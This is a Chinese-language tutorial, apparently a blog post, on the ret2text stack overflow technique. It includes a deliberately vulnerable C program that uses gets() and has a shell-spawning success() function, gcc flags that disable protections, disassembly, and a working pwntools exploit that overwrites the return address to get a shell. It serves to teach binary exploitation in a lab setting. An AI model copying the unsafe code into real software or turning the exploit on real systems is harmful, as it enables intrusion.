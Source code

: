 ```yaml
---
title: "ret2text"
date: 2024-06-01
draft: false
tags: ["pwn", "rop", "stack overflow"]
series: ["rop"]
series_order: 1
---
```

返回到文本段（Return-to-text segment）攻击，这是一种利用程序中的可执行代码段（text segment）来执行恶意操作的攻击。这种技术有几个基本前提：

- 程序中的某些代码位置是可预测的，同时在不同运行时是固定的
- 只需要利用程序的现有代码，无需注入新的代码

可以通过一个简单的例子说明这个问题：

```c
// example.c
#include <stdio.h>
#include <stdlib.h>

int success()
{
    puts("called success()!\n");
    return system("/bin/sh");
}

void vuln()
{
    char buf[32];

    gets(buf);
    puts(buf);
}

int main()
{
    vuln();
    return 0;
}

```

上述代码中的库函数 `gets` 是一个危险函数，通过以下给出的 `gets` 的一个实现，可以看出这个函数引起的严重问题。它从标准输入（stdin）读入一行，在遇到一个回车或某个错误时停止。`gets` 从不检查输入的长度，这导致它很容易被利用来进行栈溢出。

```c
/* Read a newline-terminated string from stdin into S,
   removing the trailing newline.  Return S or NULL.  */
char * gets (char *s)
{
  register char *p = s;
  register int c;
  FILE *stream = stdin;
  if (!__validfp (stream) || p == NULL)
    {
      __set_errno (EINVAL);
      return NULL;
    }
  if (feof (stream) || ferror (stream))
    return NULL;
  while ((c = getchar ()) != EOF)
    if (c == '\n')
      break;
    else
      *p++ = c;
  *p = '\0';
  /* Return null if we had an error, or if we got EOF
     before writing any characters.  */
  if (ferror (stream) || (feof (stream) && p == s))
    return NULL;
  return s;
}

```

通过 gcc 编译上述代码

```sh
$ gcc -std=c99 \            # 使用 C99 标准，C99 之后不支持 gets 函数
    -no-pie \               # 关闭地址随机化
    -fno-stack-protector \  # 关闭栈破坏检测
    -z execstack \          # 关闭栈不可执行
    example.c -o example
```

可以利用 checksec 来检查编译出文件的安全性

```sh
$ checksec example
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

使用 IDA 反汇编程序，我们可以看到对应函数的汇编表示，

```assembly
; Attributes: bp-based frame

public vuln
vuln proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, [rbp+s]
mov     rdi, rax
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
nop
leave
retn
; } // starts at 40116A
vuln endp
```

可以看出当程序运行时，`vuln` 函数在运行时的栈帧如下所示。如果提供大于32字节的数据时栈帧中保存的栈指针和返回地址。因此我们可以输入大于32字节的数据来覆盖返回地址，从而控制程序的执行流。

```markdown
|      rsp       |
|:--------------:|
|  char buf[0]   |
|      ...       |
|  char buf[31]  |
|:--------------:|
|      rbp       |
|:--------------:|
| return address |
```

以下是利用 pwntools 编写的 wp:

```python
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
sh = process('./example')

# gdb.attach(sh)

success_addr = 0x401146
payload = b'a' * 0x20 # buf[32]
payload += b'b' * 8 # rbp
# 伪造返回地址，跳转到 nop ; ret，Ubuntu18及以上版本的系统要求在调用system函数时栈16字节对齐，
# 即调用system函数时rsp的值必须是16的倍数，也就是末位为0，否则无法执行。这里多进行一次 rtn 以实现对齐
payload += p64(0x40112f)
payload += p64(success_addr) # success 函数地址

sh.sendline(payload)
sh.interactive()
```

> NOTE:
>
> 上述代码中，没有立即跳转到 `success()` 的运行地址，这是源于 `system()` 函数运行时的**栈16字节对齐**要求。
